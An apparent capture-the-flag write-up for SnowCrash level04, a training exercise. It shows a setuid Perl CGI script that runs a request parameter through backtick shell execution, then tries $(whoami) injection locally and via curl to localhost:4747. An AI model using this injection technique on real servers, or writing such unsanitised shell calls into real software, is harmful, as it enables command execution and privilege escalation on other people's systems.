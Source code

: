 # level04

As always:
```
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Hmm.. a perl file:
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

We sees that we can exploit the second argument like:
```
level04@SnowCrash:~$ perl level04.pl x="$(whoami)"
Content-type: text/html

level04
```

Let's try to did it on the localhost:4747 !
```
level04@SnowCrash:~$ curl localhost:4747?x=$(whoami)
level04
```
Ok, same thing :c
